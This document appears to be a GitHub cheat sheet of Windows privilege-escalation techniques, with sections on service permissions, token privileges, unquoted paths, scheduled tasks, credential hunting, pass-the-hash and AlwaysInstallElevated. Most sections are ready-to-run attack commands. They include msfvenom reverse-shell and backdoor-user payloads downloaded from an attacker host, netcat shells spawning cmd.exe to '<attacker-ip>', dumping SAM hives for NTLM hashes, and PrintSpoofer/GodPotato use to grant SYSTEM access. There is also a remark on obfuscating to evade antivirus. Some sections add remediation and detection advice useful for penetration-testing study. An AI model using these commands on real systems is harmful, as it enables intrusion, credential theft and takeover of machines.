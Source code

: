 #####################################
Windows Privilege Escalation Examples
#####################################

<details>
<summary>Weak Service Permissions</summary>
 <br> 
========================
In Windows, services running as LocalSystem (highest privilege) with non-default or writable executable paths and weak permissions can be exploited for privilege escalation. This document provides detection, exploitation, and remediation steps.

🔍 1. Enumerate Services Running as LocalSystem with Non-Standard Paths
These services might use custom paths (e.g., C:\Users\Public\svc.exe) instead of the protected default (C:\Windows\System32).

✅ PowerShell:

    Get-WmiObject Win32_Service | Where-Object {
    $_.StartName -eq "LocalSystem" -and
    $_.PathName -notlike "C:\Windows\System32*"
    } | Select-Object Name, StartName, PathName

    
✅ WMIC:
cmd

    wmic service get name,startname,pathname | findstr /i "LocalSystem" | findstr /v /i "C:\\Windows\\System32"
<img width="1016" height="237" alt="image" src="https://github.com/user-attachments/assets/b58cd5a7-6d2d-4bba-b200-baa7cc66faee" />
🔐 2. Check Permissions on Service Configuration
Use AccessChk to determine whether a user can start, stop, configure, or modify a service.

✅ Command:
cmd

    .\accesschk64.exe /accepteula -uwcqv user servicename
Look for permissions like:

Permission	Meaning
SERVICE_ALL_ACCESS	Full control
SERVICE_CHANGE_CONFIG	Can change service binary path
WRITE_DAC / WRITE_OWNER	Can escalate to full control
GENERIC_WRITE / GENERIC_ALL	Equivalent to full control
<img width="939" height="407" alt="image" src="https://github.com/user-attachments/assets/e4ea7ead-9a28-4752-9e52-74c28bc09e8b" />

📂 3. Identify Writable Service Executables
✅ Export Executable Paths:

    for /f "tokens=2 delims='='" %a in ('wmic service list full ^| find /i "pathname" ^| find /v /i "system32"') do @echo %a >> C:\Windows\Temp\services.txt
✅ If wmic is not available:
cmd

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
✅ Check Permissions:
cmd

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do accesschk.exe /accepteula -qv "%a" >> accesschk.txt
Or use icacls/cacls:

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do icacls "%a" >> icacls.txt
Look for:

Symbol	Meaning
(F)	Full Access
(M)	Modify Access
(W)	Write Access
(WDAC)	Write DACL
(WO)	Write Owner

⚙️ 4. Exploitation Steps
✅ 4.1 Replace the Service Executable
Generate a reverse shell payload (Metasploit):

bash

    msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe -o reverse_priv.exe
Host it:

bash

    python3 -m http.server 8999
Transfer to target:

powershell

    wget http://<attacker_ip>:8999/reverse_priv.exe -o reverse_priv.exe
Overwrite service binary:

powershell

    copy reverse_priv.exe "C:\Path\To\Service.exe"
✅ 4.2 Start the Service
c

    sc start <service>
Or:

cmd

    net start <service>
⚡ 5. Writable Service Object Exploitation
✅ Find Writable Service Objects
cmd

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *
✅ Update Service Binary Path
cmd

    sc config <service> binPath= "C:\Path\To\reverse_priv.exe"
Remove dependencies if blocking:

cmd

    sc config <service> depend= ""
Change service start mode to manual:

cmd

    sc config <service> start= demand
Update service to run as SYSTEM:

c

    sc config <service> obj= ".\LocalSystem" password= ""
✅ Start/Stop Service:
cmd

    sc stop <service>
sc start <service>
Or:

cmd

    net stop <service>
    net start <service>
🧪 6. Validate Exploitability
powershell

    Get-WmiObject Win32_Service -Filter "Name='<service>'" |Select-Object Name, DisplayName, StartMode, State, StartName, PathName
<img width="1064" height="161" alt="image" src="https://github.com/user-attachments/assets/6fdbbea7-d56e-4cb4-80a3-4f9016f995c8" />
    
🤖 7. Automated Enumeration
✅ SharpUp
Use SharpUp.exe for automated privilege escalation checks.

cmd

    SharpUp.exe --services
    or: SharpUp.exe audit
 <img width="974" height="482" alt="image" src="https://github.com/user-attachments/assets/b36466e1-923a-4ddb-8188-bcfb99ac4c76" />
   
✅ Summary of Exploit Steps
Step	Description
🔍 1	Find services running as LocalSystem with writable paths
🔐 2	Check if current user can change or control the service
💣 3	Replace binary with malicious payload
▶️ 4	Restart or trigger the service to execute payload
⚡ 5	Get SYSTEM-level shell

🔐 Remediation Checklist
✅ Always install services in C:\Windows\System32

✅ Set tight permissions using sc sdset or GPO

✅ Regularly audit services using:

 Sysinternals AccessChk

 PowerUp / SharpUp

✅ Enable AppLocker / Software Restriction Policies

✅ Monitor service creation/modification with Sysmon

</details>

<details>
<summary>SeBackupPrivilege</summary>
 <br> 
🔑 What is SeBackupPrivilege?
SeBackupPrivilege is a special Windows permission intended for backup operations.

It allows a user to bypass file ACLs and read any file on the system — even highly sensitive ones like:

C:\Windows\System32\config\SAM

C:\Windows\System32\config\SYSTEM

Attackers can abuse this to extract password hashes and escalate privileges.

🔍 Step 1: Check for SeBackupPrivilege
After getting access (e.g., through Evil-WinRM), check assigned privileges:

powershell

    whoami /priv
   <img width="923" height="339" alt="image" src="https://github.com/user-attachments/assets/18ee9197-db13-4739-b7cf-69ffa64bdf96" />

✅ Look for SeBackupPrivilege in the output.

📁 Step 2: Dump Registry Hives
Create a Temp Directory and Dump SAM & SYSTEM
powershell

    cd C:\
    mkdir Temp
    reg save hklm\sam C:\Temp\sam
    reg save hklm\system C:\Temp\system
 <img width="766" height="416" alt="image" src="https://github.com/user-attachments/assets/5f011469-d495-42eb-8b76-fe2af58a191e" />
   
📥 Step 3: Transfer Files to Kali
Use Evil-WinRM's built-in download command:

powershell

    cd Temp
    download sam
    download system
 <img width="563" height="298" alt="image" src="https://github.com/user-attachments/assets/178f145f-cb49-4cb4-9f82-6e1e424d6658" />
   
🔓 Step 4: Extract Hashes on Kali
🐍 Option 1: Using PyPyKatz
bash

    pypykatz registry --sam sam system
✅ This will output NTLM hashes like:
<img width="1021" height="296" alt="image" src="https://github.com/user-attachments/assets/cf46c206-5e73-4c69-ba4b-3ab653fe5069" />


Administrator:500:aad3b435b51404eeaad3b435b51404ee:5e0375cf8e440aa58a809d57edd78996::
🧰 Option 2: Using Impacket’s secretsdump.py

    cd ~/impacket
    python3 -m venv impacket-env
    source impacket-env/bin/activate
    secretsdump.py -system /home/kali/system -sam /home/kali/sam LOCAL
 <img width="1056" height="320" alt="image" src="https://github.com/user-attachments/assets/9fa97eb3-93ba-496e-9418-ecb08ed1bb24" />
   
🚪 Step 5: Lateral Movement / Privilege Escalation
Use the extracted NTLM hash to pivot or escalate.

🛠️ Option 1: Evil-WinRM (Pass-the-Hash)

evil-winrm -i <target-ip> -u <domain\user> -H <NTLM-hash>
Example:

    evil-winrm -i 192.168.216.130 -u corp\administrator -H 5e0375cf8e440aa58a809d57edd78996
🛠️ Option 2: CrackMapExec

    crackmapexec smb <target-ip> -u Administrator -H <NTLM-hash>
🛠️ Option 3: PsExec (from Impacket)

    psexec.py Administrator@<target-ip> -hashes :<NTLM-hash>
🧑‍💼 Bonus: Enumerate Users (Optional)
If you need to look up domain users on a DC:

powershell

    Get-ADUser -Filter * | Select-Object Name, SamAccountName
Requires ActiveDirectory module, usually available on domain controllers.

🔚 Summary
Step	Action
1️⃣	Check if user has SeBackupPrivilege
2️⃣	Dump SAM and SYSTEM hives using reg save
3️⃣	Download files using evil-winrm
4️⃣	Extract hashes with pypykatz or secretsdump.py
5️⃣	Reuse hashes with Evil-WinRM, CrackMapExec, or PsExec for lateral movement or privilege escalation

 </details>

 <details>
<summary>SeImpersonatePrivilege</summary>
 <br>
🔍 What is SeImpersonatePrivilege?
The SeImpersonatePrivilege is a powerful permission in Windows that allows a user to impersonate the security context of another user. This is typically used by services to act on behalf of a client.

✅ If a low-privileged user account has SeImpersonatePrivilege, it can often be exploited to escalate to SYSTEM or Administrator using various impersonation attacks.

🧠 Why is it dangerous?
This privilege allows attackers to impersonate privileged tokens (like SYSTEM or admin) when certain services or RPC endpoints allow it.

It is commonly exploited in local privilege escalation (LPE) scenarios.

🔍 Identifying SeImpersonatePrivilege
Run this on the target system (PowerShell):

powershell

    whoami /priv | findstr SeImpersonatePrivilege
If you see it as Enabled, you can likely proceed with known exploits.
<img width="1041" height="362" alt="image" src="https://github.com/user-attachments/assets/aeb520d9-af88-4719-b8cb-4707dcabfedb" />

⚙️ Exploitation Tools
🔧 1. PrintSpoofer
PrintSpoofer abuses the SeImpersonatePrivilege via the Print Spooler service to impersonate SYSTEM.

🧪 Steps:
Upload the executable to the target system:

powershell

    upload PrintSpoofer.exe
<img width="1064" height="178" alt="image" src="https://github.com/user-attachments/assets/7d0e6a51-a786-4ae1-85a7-c54c65220d4c" />
    
Run PrintSpoofer to add your user to the Administrators group:

powershell

    .\PrintSpoofer.exe -i -c "net localgroup Administrators <user-name> /add"
-i → impersonate token

-c → command to execute as SYSTEM
<img width="1025" height="77" alt="image" src="https://github.com/user-attachments/assets/fed9f6a6-9e19-4292-9e6d-03c5d0059f91" />

✅ Your user is now part of the Administrators group.

🔧 2. GodPotato
GodPotato is a modern implementation of the RottenPotatoNG/JuicyPotato concept, abusing COM/RPC misconfigurations and SeImpersonate privilege to execute commands as SYSTEM.

🧪 Steps:
Upload the GodPotato executable:

powershell

    upload GodPotato-NET4.exe
Execute the command to add your user to the Administrators group:

powershell

.\GodPotato-NET4.exe -cmd "cmd /c net localgroup Administrators r.andrews /add"
✅ Once executed successfully, the user is elevated.
<img width="1052" height="574" alt="image" src="https://github.com/user-attachments/assets/ef72d9f6-4d43-45c8-8f50-7cca73d7e933" />

✅ Confirming Privilege Escalation
You can now verify that your user has admin access:

powershell

whoami /groups
net user <user-name>
Or list protected directories:

powershell

dir C:\Users\Administrator\
📌 Notes:
These exploits work only locally and require SeImpersonatePrivilege.

These tools may trigger EDR/AV, so obfuscation or alternative binaries might be needed.

Not all Windows builds are vulnerable; ensure the Print Spooler or vulnerable COM servers are available.

🧰 Alternative Tools & Techniques
Tool	Description
JuicyPotato	Legacy COM exploit, works only on older versions
RoguePotato	Bypasses newer Windows protections
PrintSpoofer	Exploits Print Spooler to impersonate SYSTEM
GodPotato	Updated COM exploit using .NET

📚 References
https://github.com/itm4n/PrintSpoofer

https://github.com/BeichenDream/GodPotato

  </details>
  
<details>
<summary>Unquoted Service Pathss</summary>
 <br> 

----------------------

Find unquoted service paths:

.. code-block:: none

    wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

If the unquoted service path is :code:`C:\Program Files\path to\service.exe`, you can place a binary in any of the following paths:

.. code-block:: none

    C:\Program.exe
    C:\Program Files.exe
    C:\Program Files\path.exe
    C:\Program Files\path to.exe
    C:\Program Files\path to\service.exe

</details>
<details>
<summary>Scheduled Task/Job</summary>
 <br> 
An attacker can exploit Windows Task Scheduler to schedule malicious programs for initial or recurrent execution. For persistence, the attacker typically uses Windows Task Scheduler to launch applications at system startup or at predefined intervals. Furthermore, the attacker executes remote code under the context of a specified account to achieve Privilege Escalation.

Task Scheduler
 You can easily schedule an automatic job using the Task Scheduler service. When you utilize this service, you set up any program to run at a specific date and time that suits your needs. Subsequently, Task Scheduler evaluates the defined time or event criteria and runs the task once those conditions are met.

Abusing Schedule Task/Job
An attacker can escalate privileges by exploiting Schedule Task/Job. Following an initial foothold, we can query to obtain the list for the scheduled task.

    schtasks /query /fo LIST /V
This helps an attack to understand which application is attached to execute Job at what time.
 
 To obtain a reverse shell as NT Authority SYSTEM, first create a malicious EXE file that a scheduled task can execute. Using Msfvenom, we then generate the EXE file and inject it into the target system accordingly.

    msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=8888 -f exe > shell.exe
To abuse the scheduled Task, the attacker will either modify the application by overwriting it or may replace the original file from the duplicate. To insert a duplicate file in the same directory, we rename the original file as a file.bak.

Then downloaded malicious file.exe in the same directory with the help of wget command.
   
    powershell wget 192.168.1.3/shell.exe –o file.exe
Once the duplicate file.exe is injected in the same directory then, the file.exe will be executed automatically through Task Scheduler. As attackers make sure that netcat listener must be at listening mode for obtaining reverse connection for privilege shell.

    nc -lvp 8888
    whoami /priv

Detection
Tools such as Sysinternals[https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns] Autoruns can detect system changes like showing presently scheduled jobs.
Tools like TCPView[https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview] & Process Explore[https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer] may help to identify remote connections for suspicious services or processes.
View Task Properties and History: To view a task’s properties and history by using a command line
Schtasks /Query /FO LIST /V

Enable the “Microsoft-Windows-TaskScheduler/Operational” configuration inside the event logging service to report scheduled task creation and updates.
</details>
<details>
<summary>Cleartext Passwords</summary>
 <br> 

===================

Find passwords in arbitrary files:

.. code-block:: none

    findstr /si password *.txt *.xml *.ini

Find strings in filenames:

.. code-block:: none

    dir /s *pass* == *cred* == *vnc* == *.config*

Find passwords in all files:

.. code-block:: none

    findstr /spin "password" *.*

Common files which contain passwords:

.. code-block:: none

    type c:\sysprep.inf
    type c:\sysprep\sysprep.xml
    type c:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
    dir c:*vnc.ini /s /b
    dir c:*ultravnc.ini /s /b
    dir c:\ /s /b | findstr /si *vnc.ini

Search for passwords in the registry:

.. code-block:: none

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

</details>
<details>
<summary>Passing the Hash</summary>
 <br> 
================

The following commands can be used to dump password hashes:

.. code-block:: none

    wce32.exe -w
    wce64.exe -w
    fgdump.exe

Remote
------

Pass the hash remotely to gain a shell:

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-ip> cmd

Sometimes you may need to reference the target by its hostname (add an entry to /etc/hosts to make it resolve):

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-hostname> cmd

Alternative:

.. code-block:: none

    export SMBHASH=<hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd

Local
-----

Pass the hash locally using runas:

.. code-block:: none

    C:\Windows\System32\runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

Pass the hash locally using PowerShell:

.. code-block:: none

    secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

Pass the hash locally using psexec:

.. code-block:: none

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

</details>
<details>
<summary>Loopback Services</summary>
 <br> 
=================

Search for services listening on the loopback interface:

.. code-block:: none

    netstat -ano | findstr "LISTEN"

Use plink.exe to forward the loopback port to a port on our attacking host (via SSH):

.. code-block:: none

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>

</details>
<details>
<summary>AlwaysInstallElevated</summary>
 <br> 
=====================
 
🔍 Overview
AlwaysInstallElevated is a Windows policy setting that, when enabled, allows non-privileged users to install Microsoft Installer Packages (.msi files) with elevated (SYSTEM) privileges. This feature, originally intended for administrative convenience, becomes a serious security misconfiguration if both user-level and machine-level policies are enabled simultaneously.

⚠️ If both registry keys (HKCU and HKLM) have AlwaysInstallElevated = 1, any user can install MSI files with SYSTEM-level privileges.

🧪 Detection
Before exploitation, you need to check if the target machine is misconfigured:

✅ Check via Registry
powershell

    reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
Both keys must return AlwaysInstallElevated REG_DWORD 0x1 for the system to be vulnerable.
<img width="1061" height="261" alt="image" src="https://github.com/user-attachments/assets/3fad82f8-9c74-4d4d-9290-96e62ce68605" />

✅ Check via Enumeration Tools
Use winPEASany.exe on the target system to automatically enumerate this setting:

powershell

    .\winPEASany.exe all
Look under "Registry - AlwaysInstallElevated" section for any findings.
<img width="1041" height="119" alt="image" src="https://github.com/user-attachments/assets/eb4d5020-8458-41c9-985b-ab6cd9a2f5d1" />

✅ Remote PowerShell Shell Check (Optional)
If you have a reverse shell on the target, verify with:

powershell

    reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer
Or automate using PowerShell:

powershell

    Get-ItemProperty -Path "HKCU:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
    Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
💥 Exploitation
Once confirmed vulnerable, you can exploit the system by creating and executing a malicious .msi payload.

🔧 Step 1: Generate a Malicious MSI File
Option 1: Add User to Administrators Group
bash

    msfvenom -p windows/exec CMD='net localgroup administrators USERNAME /add' -f msi -o adduser.msi
Replace USERNAME with the low-privileged user account you want to escalate.

Option 2: Create a Backdoor User
bash

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi
🌐 Step 2: Deliver Payload to Target
Option A: Host on Attacker Machine (Kali)
bash

    python3 -m http.server 8999
Option B: Direct Upload (if you have shell access)
powershell

    upload adduser.msi
Victim-side Download:
powershell

    Invoke-WebRequest -Uri "http://<Attacker-IP>:8999/adduser.msi" -OutFile "adduser.msi"
🚀 Step 3: Execute with SYSTEM Privileges
powershell

    msiexec /quiet /qn /i adduser.msi
/quiet /qn: Ensures the installation is completely silent (no GUI or prompts).

/i: Installs the specified MSI file.

🔎 Post-Exploitation: Verify Success
Confirm that the privilege escalation worked by checking group membership:

powershell
net localgroup administrators
You should now see the new or escalated user added to the Administrators group.
<img width="1062" height="586" alt="image" src="https://github.com/user-attachments/assets/b1865faf-8580-4771-bd50-5ef0742083f8" />

📘 Summary
Step	Description
1. Detect	Query registry or use winPEASany.exe to confirm both HKCU and HKLM values set to 1.
2. Create Payload	Use msfvenom to generate a .msi that adds a user or runs arbitrary commands.
3. Deliver Payload	Host on HTTP server or upload directly.
4. Execute with msiexec	msiexec /quiet /qn /i payload.msi runs it as SYSTEM.
5. Verify	Use net localgroup administrators to confirm elevated privileges.

🔐 Mitigation
Admins should ensure AlwaysInstallElevated is not enabled on both user and machine levels unless explicitly required (which is rare in modern environments).

To disable:

bash
     
     reg delete HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f
     reg delete HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f

</details>
<details>
<summary>Stored Credentials</summary>
 <br> 

==================

If there are stored credentials, we can run commands as that user:

.. code-block:: none

    $ cmdkey /list

    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator

Execute commands by using runas with the /savecred argument. Note that full paths are generally needed:

.. code-block:: none


    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <attacker-port> -e cmd.exe"

   </details>
